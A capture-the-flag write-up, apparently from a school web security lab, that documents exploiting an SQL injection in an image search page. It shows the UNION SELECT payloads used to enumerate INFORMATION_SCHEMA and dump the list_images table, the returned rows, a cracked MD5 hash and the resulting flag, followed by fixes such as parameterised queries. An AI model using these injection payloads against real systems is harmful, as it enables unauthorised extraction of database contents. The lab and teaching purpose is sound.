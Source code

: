 # SQL Injection (Advanced) 🏴<!-- omit in toc -->

```txt
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

- [Location 🗺️](#location-️)
- [Vulnerability ⚔️](#vulnerability-️)
- [Method 🧾](#method-)
- [Tools & References 🧰](#tools--references-)
- [Fix 🔧](#fix-)

## Location 🗺️

'http://\<ip-address>:80/?page=searchimg'

## Vulnerability ⚔️

SQL Injectable text input in the member search. An
injectible database will allow a person to obtain sensitive information.

## Method 🧾

I entered `1 OR 1` in the search box. This returned:

```txt
ID: 1 or 1
Title: Nsa
Url : https://www.nsa.org/img.jpg

ID: 1 or 1
Title: 42 !
Url : https://www.42.fr/42.png

ID: 1 or 1
Title: Google
Url : https://www.google.fr/google.png

ID: 1 or 1
Title: Obama
Url : https://www.obama.org/obama.jpg

ID: 1 or 1
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 1 or 1
Title: tr00l
Url : https://www.h4x0r3.0rg/tr0ll.png
```

So I start running commands to find just one query, I entered 5 (in case it is lucky) in the box and this returns:

```txt
ID: 5
Title: Hack me ?
Url : borntosec.ddns.net/images.png
```

The first thing to do is to find out which tables are present and which coloumns. I ran the query:

```sql
5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
```

```txt
ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: id
Url : list_images

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: url
Url : list_images

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: title
Url : list_images

ID: 5 UNION SELECT TABLE_NAME, COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS
Title: comment
Url : list_images
```

We have found the list_ table and the columns therein. We are interested to see the contents now so we query:

```sql
5 UNION SELECT title, comment FROM list_images
```

This will return:

```txt
ID: 5 UNION SELECT title, comment FROM list_images
Title: Hack me ?
Url : borntosec.ddns.net/images.png

ID: 5 UNION SELECT title, comment FROM list_images
Title: An image about the NSA !
Url : Nsa

ID: 5 UNION SELECT title, comment FROM list_images
Title: There is a number..
Url : 42 !

ID: 5 UNION SELECT title, comment FROM list_images
Title: Google it !
Url : Google

ID: 5 UNION SELECT title, comment FROM list_images
Title: Yes we can !
Url : Obama

ID: 5 UNION SELECT title, comment FROM list_images
Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : Hack me ?

ID: 5 UNION SELECT title, comment FROM list_images
Title: Because why not ?
Url : tr00l
```

This is an MD5 hash is:
`1928e8083cf461a51303633093573c46: albatroz`

The SHA256 for `albatroz: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

## Tools & References 🧰

- [hashes.com](https://hashes.com/en)
- [W3Schools.com](https://www.w3schools.com/sql/sql_injection.asp)
- [Cheatsheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Injection_Prevention_Cheat_Sheet.html)
- [Owasp](https://owasp.org/www-community/attacks/SQL_Injection)
- [Portswigger - Union Attacks](https://portswigger.net/web-security/sql-injection/union-attacks)
- [SQL Injection .NET](https://www.sqlinjection.net/table-names/)
- [PT Security](https://www.ptsecurity.com/ww-en/analytics/knowledge-base/how-to-prevent-sql-injection-attacks/)

## Fix 🔧

- Input Validation
  - Use Regular Expressions as whitelist
  - If values are fixed use radios and buttons
- Use internal checks like $(isNumber) or $(isString) depending on the input
- Parametrised Querys like PDO for php or Prepared Statements in general.
- Escaping the characters eg. `mysqli_real_escape_string($string)`

There are other methods like Web Application Firewalls, but the ones listed above are the best places to start.

Explain the basic functioning of the vulnerability

Demonstrate & Compare that the two flags are indeed identical
